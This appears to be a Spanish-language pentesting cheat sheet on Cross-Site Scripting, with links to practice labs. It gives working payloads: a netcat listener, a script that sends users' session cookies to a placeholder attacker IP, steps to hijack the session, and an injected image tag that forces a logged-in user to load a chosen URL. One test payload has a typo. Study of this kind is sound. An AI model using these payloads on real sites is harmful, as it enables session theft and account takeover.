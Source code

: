 ## Cross-Site Scripting (XSS)

Una vulnerabilidad XSS (Cross-Site Scripting) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en un sitio web. 
un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página.  
Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:  
* Reflejado (Reflected): Este tipo de XSS se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
* Almacenado (Stored): Este tipo de XSS se produce cuando un atacante es capaz de almacenar código malicioso en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
* DOM-Based: Este tipo de XSS se produce cuando el código malicioso se ejecuta en el navegador del usuario a través del DOM (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

**Proyecto Github con docker vulnerable a XSS** <a href="https://github.com/globocom/secDevLabs">secDevLabs</a>  
**Maquina MyExpense** <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense machine (Vulnhub)</a>

#### Comprobar si es vulnerable
En un campo de texto, por ejemplo para enviar un post, comentario, etc. escribimos:  
```
<sccript>alert('Prueba XSS')</script>

En ocastiones no es necesario las etiquetas <script>, o incluso es necesario no ponerlas para que funcione
```

### Cookie stealing
Se puede poner netcat a la escucha:  
```
nc -nlvp 80
```

E inyectar el siguiente código:  
```
<script>img = new Image(); img.src = "http://IP_ATACANTE/a.php?"+document.cookie;</script>
```

En la ventana del terminal donde tengamos netcat a la escucha, aparecerá la cookie de sesión cuando algún usuario entre a esa página a consultar los mensajes por ejemplo.  
Para utilizarla:  Ctrl+Shift+I (inspeccionar) -->Application -->Cookies y cambiamos la cookie de sesión por la capturada, luego recargamos y ya estamos dentro.

### Mandar a una dirección

En una máquina fue útil cuando quisimos que un usuario logueado fuese a una dirección sin que supiese, que lo que hacía era activar una cuenta de usuario.
```
igual que el anterior, pero el codigo:
<script>document.write('<img src="URL A DONDE QUIERAS DIRIGIR"/>');</script>
```
